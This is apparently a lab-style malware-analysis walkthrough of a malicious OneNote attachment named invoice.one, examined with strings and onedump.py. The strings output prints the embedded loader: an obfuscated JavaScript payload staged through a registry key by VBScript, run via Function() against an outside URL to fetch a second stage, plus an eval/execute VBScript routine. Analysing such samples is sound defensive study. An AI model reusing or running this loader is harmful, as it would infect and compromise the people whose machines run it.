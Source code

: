 Firstly, we take out strings to see if there is anything interesting in the file like *IP addresses, scripts, domains*...

``` sh
remnux@thm-remnux:~/onenoteDocs$ strings invoice.one -n 20
Copyright (c) 1998 Hewlett-Packard Company
IEC http://www.iec.ch
IEC http://www.iec.ch
.IEC 61966-2.1 Default RGB colour space - sRGB
.IEC 61966-2.1 Default RGB colour space - sRGB
,Reference Viewing Condition in IEC61966-2.1
,Reference Viewing Condition in IEC61966-2.1
Copyright (c) 1998 Hewlett-Packard Company
IEC http://www.iec.ch
IEC http://www.iec.ch
.IEC 61966-2.1 Default RGB colour space - sRGB
.IEC 61966-2.1 Default RGB colour space - sRGB
,Reference Viewing Condition in IEC61966-2.1
,Reference Viewing Condition in IEC61966-2.1
<div id="content">f5&u5&n5&c5&t5&i5&o5&n5& 5&s5&l5&e5&e5&p5&(5&m5&i5&l5&l5&i5&s5&)5&{5&v5&a5&r5& 5&d5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5&v5&a5&r5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&u5&l5&l5&;5&d5&o5& 5&{5& 5&c5&u5&r5&D5&a5&t5&e5& 5&=5& 5&n5&e5&w5& 5&D5&a5&t5&e5&(5&)5&;5& 5&}5&w5&h5&i5&l5&e5&
...
<script language="javascript">
var hello = "39cd7b469beae7c617c73e0d008195ef";
var content = document.getElementById("content").innerText;
<script language="vbscript">
Dim ws : Set ws = CreateObject("WScript.Shell")
ws.RegWrite "HKCU\SOFTWARE\Andromedia\Mp4ToAvi\Values", content, "REG_SZ"
' msgbox ws.RegRead("HKCU\SOFTWARE\Andromedia\Mp4ToAvi\Values")
<script language="javascript">
var body = ws.RegRead("HKCU\\SOFTWARE\\Andromedia\\Mp4ToAvi\\Values");
var func = Function("url", body.replace(/5&/g, ""));
func("https://unitedmedicalspecialties.com/T1Gpp/OI.png");
<script language="vbscript">
ws.RegDelete("HKCU\SOFTWARE\Andromedia\Mp4ToAvi\Values")
<html><head><script language="vbscript">
Sub PsIfYCwsFUxaTzhDcniBNSKKlpFvBQkq(fVyZuxSyFixqmNzeEtgoYpnLGIiLoMtQAkqFX) : eval("execute(fVyZuxSyFixqmNzeEtgoYpnLGIiLoMtQAkqFX)") : End Sub
...
```

Because it looks like we are getting some references to some suspicious code, we will use another utility called `onedump.py`.

``` sh
remnux@thm-remnux:~/onenoteDocs$ python3 onedump.py invoice.one 
File: invoice.one
 1: 0x00001740 .... ffd8ffe2 0x00015b4f 4d5f7afd30851031376da0fa6d0e3f80
 2: 0x0001d290 .... ffd8ffe2 0x0000d36f 2ccb7fd40e61b6dd2cd936e61929fb81
 3: 0x0002ae58 .PNG 89504e47 0x000000ef 088833d5a4fdcd105a34657922326f76
 4: 0x0002bb00 .PNG 89504e47 0x00000128 33dca72504d567c57f95452a0358ed2f
 5: 0x0002bc60 <htm 3c68746d 0x00000817 c9d2355fc2be90b0fa73ecb67061a77e
 6: 0x0002d628 <htm 3c68746d 0x00005c19 b915056524f1b25937074727cdf5f87c
```
